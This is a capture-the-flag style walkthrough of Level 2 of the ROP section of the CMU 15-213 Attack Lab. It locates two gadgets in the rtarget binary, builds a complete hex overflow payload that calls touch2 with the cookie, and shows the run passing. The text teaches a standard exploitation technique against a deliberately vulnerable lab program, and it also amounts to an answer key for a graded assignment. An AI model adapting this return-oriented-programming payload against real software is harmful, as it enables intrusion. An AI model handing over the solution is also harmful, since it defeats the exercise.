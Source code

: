 # Part II: Return-Oriented Programming

## Level 2

In this phase, we are actually repeating the second phase of the code injection attack, hijacking the program flow, and returning to the `touch2` function. But what we have to do is a ROP attack. At this stage, we can no longer put the instruction sequence on the stack as in the previous stage, so we need to find the instruction sequence we need in the existing program.

If you don’t understand any ROP attacks, please read the [README](../README.md) again.

The code sequence we need is as follows:

```Assembly
popq %rax       # 58
movq %rax, %rdi # 48 89 c7
```

We can get `popq %rax` in `0x4019ab`:

```Assembly
00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3
```

We can get `movq %rax, %rdi` in `0x4019a2`:

```Assembly
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

So, our payload is that:

```Text
# Remove "# ..." when you test the code
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00 # gadget 1
fa 97 b9 59 00 00 00 00 # cookie
a2 19 40 00 00 00 00 00 # gadget 2
ec 17 40 00 00 00 00 00 # address of touch2
```

And in the stack frame, its structure is as follows:

![payload4](../img/payload4.png)

```Shell
attack_lab/part2# vim solution4.hex
attack_lab/part2# ./hex2raw -i solution4.hex > solution4.raw
attack_lab/part2# ./rtarget -q < solution4.raw
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
attack_lab/part2#
```

## Level 3

In fact, Level 3 is a complex situation of Level 2, and we will treat it as an open experiment here and do not provide answers.

Good luck and have fun!